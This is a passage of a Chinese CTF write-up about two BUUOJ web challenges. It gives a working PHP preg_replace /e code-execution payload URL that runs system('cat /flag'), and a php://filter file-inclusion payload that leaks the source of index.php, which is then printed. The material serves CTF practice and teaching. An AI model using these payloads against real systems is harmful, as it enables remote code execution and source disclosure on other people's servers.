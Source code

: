 主要考察 preg_replace 中 `/e` 修饰符导致的代码执行, 以及 PHP 的可变变量

参考文章

[https://xz.aliyun.com/t/2557](https://xz.aliyun.com/t/2557)

[https://www.php.net/manual/zh/language.variables.variable.php](https://www.php.net/manual/zh/language.variables.variable.php)

payload 如下, 没用到 getFlag 这个函数, 非要用的话思路也差不多

```
http://0c7c25eb-0cf1-48a3-9275-3e974778839f.node4.buuoj.cn:81/next.php?\S*={${eval($_REQUEST[1])}}&1=system('cat /flag');
```

因为 PHP get 参数名中的 `.` 会被转换成 `_`, 所以不能用 `.*` 这个正则

`\S` 表示匹配任意非空白符的字符, `*` 表示重复零次或更多次

另外不太清楚 `{${phpinfo()}}` 为什么最外层还要加一组大括号, 可能是这个原因?

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208251851177.png)

## [BSidesCF 2020]Had a bad day

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208251912700.png)

猜测是文件包含

category 改成 index.php 提示 `Sorry, we currently only support woofers and meowers.`

根据经验来看应该只是单纯 strpos 查看有没有包含这个关键词

php://filter 遇到不认识的过滤器会自动跳过

测试一下发现末尾会自动加 `.php`

```
http://0a37d3e1-1235-4537-a0e0-a2a8318129e0.node4.buuoj.cn:81/index.php?category=php://filter/meowers/convert.base64-encode/resource=index
```

index.php

```php
......
<?php
$file = $_GET['category'];

if(isset($file))
{
	if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
		include ($file . '.php');
	}
	else{
		echo "Sorry, we currently only support woofers and meowers.";
	}
}
?>
......
```
